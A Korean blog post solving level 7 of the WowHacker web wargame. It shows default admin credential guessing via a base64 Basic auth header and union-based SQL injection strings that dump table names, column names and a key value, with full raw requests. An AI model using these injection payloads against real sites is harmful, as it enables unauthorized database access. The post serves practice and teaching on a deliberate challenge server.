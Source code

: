 ```yaml
---
layout: post
title: "WowHacker Webgemae level7"
description: ""
date: 2015-09-08
tags: ['7번', '7본', '문제풀이', '심심', '심심할때', '와우해커', '와우해킹', '워게임', '웹해킹', '정답', '풀이', '해답', '해킹']
comments: true
share: true
---
```


하루하루 진행하다보니, 일주일사이에 7번 문제풀이를 하게되었네요.

올드좀비님의 Webhacking.kr 도 함께하고 리버싱.kr 도 함께 연재하고있으니 관심있는 분들은 한번봐주시고 피드백도 부탁드립니다.

참고로 오늘은 급하게(?) 포스팅하는 관계로 포스팅에 이전보다 많은 오타가 있을 것으로 보아 지니. . . 오타가 있다면 피드백 좀
부탁드립니다. 주소만 보았을 때, 왠지 Mysql 관련 문제일 것 같네요.

일단 해당 주소로 접근해봅시다.

  

처음에 얻은 정보는 (guest/guest) 게스트 계정 정보를 얻었네요.

  

  

![](/assets/images/posts/86/2757E44155EEC3A51220FF.PNG)

  

  

  

  

흠, 이 문제 이전 5번문제와 매우 비슷한 것 같습니다.

일단 프록실정해주시구요. guest 계정으로 접근해봅시다.

  

"서버 메세지 : Zaemitneun Webgame - Do not attack Bruteforce"

Bruteforce는 무차별 대입공격입니다. 지금 여러 방식으로 변형되어 사용되고있지만 많은 시간이 소요되는 공격기법입니다.

또 서버에 무리를 많이 주기때문에 서버측은 공격자를 빠르게 식별할수있습니다. 하지만 오늘의 문제와는 거리가 멀기때문에 각설하고 . .

  

![](/assets/images/posts/86/264EFC4155EEC3A71CC316.PNG)

  

게스트 계정으로 로그인했습니다.

제가 request 보낸 값입니다. 아파치 취약점을 이용해서 OPTIONS 메서드로 재 Request 값을 보냅니다.

Authorization에 "Z3Vlc3Q6Z3Vlc3Q=" 값은 base64로 인코딩되어있는 값 입니다. 디코딩을 하면
guest:guest 라는 값을 얻습니다.

따라서 우리는 admin:admin이라는 값으로 한번 시도해봅시다. admin:admin 을 base64로 인코딩하면 이와 같은 값을
얻습니다 "YWRtaW46YWRtaW4=" 한번 요청을 보내봅시다.

*guest request

GET http://webgame.wowhacker.com/AuThWithMySQL/ HTTP/1.1

Host: webgame.wowhacker.com

Proxy-Connection: keep-alive

Cache-Control: max-age=0

Authorization: Basic Z3Vlc3Q6Z3Vlc3Q=

Accept:
text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8

Upgrade-Insecure-Requests: 1

User-Agent: Mozilla/5.0 (Windows NT 6.1) AppleWebKit/537.36 (KHTML, like
Gecko) Chrome/45.0.2454.85 Safari/537.36 Paros/3.2.13

Accept-Encoding: sdch

Accept-Language: ko-KR,ko;q=0.8,en-US;q=0.6,en;q=0.4

  

*admin request

GET http://webgame.wowhacker.com/AuThWithMySQL/ HTTP/1.1

Host: webgame.wowhacker.com

Proxy-Connection: keep-alive

Cache-Control: max-age=0

Authorization: Basic YWRtaW46YWRtaW4=

Accept:
text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8

Upgrade-Insecure-Requests: 1

User-Agent: Mozilla/5.0 (Windows NT 6.1) AppleWebKit/537.36 (KHTML, like
Gecko) Chrome/45.0.2454.85 Safari/537.36 Paros/3.2.13

Accept-Encoding: sdch

Accept-Language: ko-KR,ko;q=0.8,en-US;q=0.6,en;q=0.4

  

![](/assets/images/posts/86/27055B3755EEC47F333458.PNG)

  

  

어드민 계정에 접근했습니다.

게스트 페이지와 다를게 없습니다. 다른거라고는 어드민 기본정보들? 하지만 이 기본정보들이 힌트가 됩니다.(나중참고)

따로 관리 툴이나 어드민 권한을 이용해서 별도의 패널에 접근할수는 없는 것 같습니다.

힌트도 없구요.

  

문제출제의도를 보면 SQL Injection을 통해서 admin 패스워드를 알아내야하는 것 같습니다.

그렇다면 우선 컬럼의 수를 알아봅시다. 컬럼수는 계정정보를보면 쉽게 추측할수있습니다.

"name,group,address,phone number,hitnum + password" 총 6개의 컬럼으로 추측할수있습니다.

계정인증폼으로 돌아가서 아이디란에 admin옆 싱글 쿼터를 닫고 쿼리문을 날려봅니다.

hax0r'union select '1','2','3','4','5','6'#:1234

  

![](/assets/images/posts/86/2376A03555EEC56A25081B.PNG)

  

name = "1",group"3",address"4",phone number"5",hitnum"6" 이라는걸 알았을때, 패스워드컬럼이
두번째 컬럼이라는것을 알수있습니다. 컬럼수가 6개 인것을 확실하게 확인했고, 이제 테이블을 알아내봅시다. 테이블명들을 group 항목으로
출력합시다.

쿼터문 준비하고, 날립니다. hax0r'union select '1','2',(select group_concat(table_name)
from information_schema.tables),'4','5','6'#:1234

aGF4MHIndW5pb24gc2VsZWN0IChzZWxlY3QgZ3JvdXBfY29uY2F0KHRhYmxlX25hbWUpIGZyb20gaW
5mb3JtYXRpb25fc2NoZW1hLnRhYmxlcyksJzInLCczJywnNCcsJzUnLCc2JyM6MTIzNDo=

Authorization 부분을 보면 Basic 인증을 사용하며 아이디와 패스워드에 구분자 ":"를 사용하고있습니다.

또 Request할때 base64로 인코딩 되구요. 따라서 그냥 입력폼에 기본 쿼터문만 입력해도되고 아니면 직접 request할때
base64로 인코딩해서 날리면 됩니다.

  

  

![](/assets/images/posts/86/277FC54A55EEDD2E0FF583.PNG)

  

  

group: CHARACTER_SETS,COLLATIONS,COLLATION_CHARACTER_SET_APPLICABILITY,COLUMNS
,COLUMN_PRIVILEGES,KEY_COLUMN_USAGE,PROFILING,ROUTINES,SCHEMATA,SCHEMA_PRIVILE
GES,STATISTICS,TABLES,TABLE_CONSTRAINTS,TABLE_PRIVILEGES,TRIGGERS,USER_PRIVILE
GES,VIEWS,keytable,user_info

  

수상한 테이블 두개를 발견했습니다. 맨 끝에 'keytable','user_info' 테이블입니다.

user_info에는 이전 name = "1",group"3",address"4",phone number"5",hitnum"6" 컬럼이
있나봅니다.

keytable에 어떤 컬럼이 있는지 조회하기 위해서는 "information_schema.columns" 의 "column_name"필드를
이용((select group_concat(column_name) from information_schema.columns where
table_name='keytable'))하면 됩니다.

쿼터문을 짜주시고, 날립시다.

hax0r'union select '1','2',(select group_concat(column_name) from
information_schema.columns where table_name='keytable'),'4','5','6'#:1234

Authorization: Basic aGF4MHIndW5pb24gc2VsZWN0ICcxJywnMicsKHNlbGVjdCBncm91cF9jb
25jYXQoY29sdW1uX25hbWUpIGZyb20gaW5mb3JtYXRpb25fc2NoZW1hLmNvbHVtbnMgd2hlcmUgdGF
ibGVfbmFtZT0na2V5dGFibGUnKSwnNCcsJzUnLCc2JyM6MTIzNA06

  

  

![](/assets/images/posts/86/22270A4955EEE07505AC4C.PNG)

  

![](/assets/images/posts/86/2113214455EEE2D1194F69.PNG)

  

  

keytable의 컬럼명을 얻었습니다. no는 번호인것같고 value 해당 컬럼의 정보갔습니다.

limit을 이용하여 value 컬럼에 있는 값을 뽑아((select value from keytable limit 0,1))봅시다.

쿼터문을 준비하고, 날려줍시다.

hax0r'union select '1','2',(select value from keytable limit
0,1),'4','5','6'#:1234

Authorization: Basic aGF4MHIndW5pb24gc2VsZWN0ICcxJywnMicsKHNlbGVjdCB2YWx1ZSBmc
m9tIGtleXRhYmxlIGxpbWl0IDAsMSksJzQnLCc1JywnNicjOjEyMzQ6

  

  

![](/assets/images/posts/86/2470774E55EEE3B50E8B9C.PNG)

  

키 값을 얻었습니다. "If you dream it, you can do it"

"꿈꿀 수 있다면, 그것을 실현하는 것도 가능하다." 멋진 말 이네요.

  

7번 문제 클리어.

문제는 총 10번까지 있으며 다음은 8번 문제를 연재하겠습니다

8번은 로그인, 인증 관련 문제입니다. 이것도 왠지 인젝션 일 것 같은데.

  

![](/assets/images/posts/86/23237D5055EEE50D1FFCCA.JPEG)

  

  

  

  

  

  

  

  

